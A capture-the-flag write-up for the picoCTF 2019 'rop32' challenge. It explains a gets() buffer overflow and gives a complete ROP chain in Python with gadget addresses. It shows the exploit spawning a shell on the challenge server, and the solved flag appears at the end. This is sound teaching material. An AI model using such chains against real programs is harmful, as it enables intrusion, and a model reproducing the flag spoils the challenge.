 # picoctf2019 rop32

##### As the given hint of this problem, this is a ROP + getshell challenge 
https://2019game.picoctf.com/problems
- vuln
- vuln.c
 ### Exploitation
We can see that both NX and ALSR are enabled, so we can only use ROP to bypass.
```sh
nmlab@nmlab-VirtualBox:~/Desktop$ checksec vuln
[*] '/home/nmlab/Desktop/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
First view the source code and run the program, it is clear that the gets() function causes overflow.
```sh
nmlab@nmlab-VirtualBox:~/Desktop$ ./vuln
Can you ROP your way out of this one?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
We want to create a ROP chain to execute /bin/sh, first use the ROPgadget to find all the gadgets. In this challenge we can use the ROPgadget to create a ROP chain using the command :
```
ROPgadget --binary ./vuln  --ropchain --badbytes 0a
```
Note that the command --badbytes 0a is added because if the gets function receives a buffer with a newline, \n, or 0xa in ASCII, it ignores everything after it, so we have to get a payload without any newline character or else our ROP exploit will fail

After generating the ROP chain, we need to add the padding, since the buffer size is 16, the padding will be 28, or we can just simply use gdb to find the overflow offset, the payload is padding plus the ROP chain. The final step is to send the payload and get shell.
```python
def rop():
    # ROPgadget --binary ./vuln  --ropchain --badbytes 0a
    
    p = 'A'*(28) # overflow offset
    
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da060) # @ .data
    p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
    p += '/bin'
    p += pack('<I', 0x080da060) # padding without overwrite edx
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da064) # @ .data + 4
    p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
    p += '//sh'
    p += pack('<I', 0x080da064) # padding without overwrite edx
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x08056420) # xor eax, eax ; ret
    p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9) # pop ebx ; ret
    p += pack('<I', 0x080da060) # @ .data
    p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x080da060) # padding without overwrite ebx
    p += pack('<I', 0x0806ee6b) # pop edx ; ret
    p += pack('<I', 0x080da068) # @ .data + 8
    p += pack('<I', 0x08056420) # xor eax, eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x0807c2fa) # inc eax ; ret
    p += pack('<I', 0x08049563) # int 0x80

    return p
```
```python
payload = rop()
print payload
print s.recvuntil('?')
s.sendline(payload)
s.interactive()
```
Now we run the exploit script
```sh
Yende-MBP:desktop yenmeng$ python rop32.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] yyymmm@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] Working directory: '/problems/rop32_1_c4f09c419e5910665553c0237de93dcf'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 711365
payload:  AAAAAAAAAAAAAAAAAAAAAAAAAAAAk`\xa04c\x05/bin`\xa0AAAAen\x05kd\xa04c\x05//shd\xa0AAAAen\x05kh\xa0 d\x05en\x05Ɂ\x04`\xa0\x92h\xa0`\xa0kh\xa0 d\x05????c\x95\x04
Can you ROP your way out of this one?
[*] Switching to interactive mode

$ $ ls
flag.txt  vuln    vuln.c
$ $ cat flag.txt
picoCTF{rOp_t0_b1n_sH_b6597626}$ $  
```
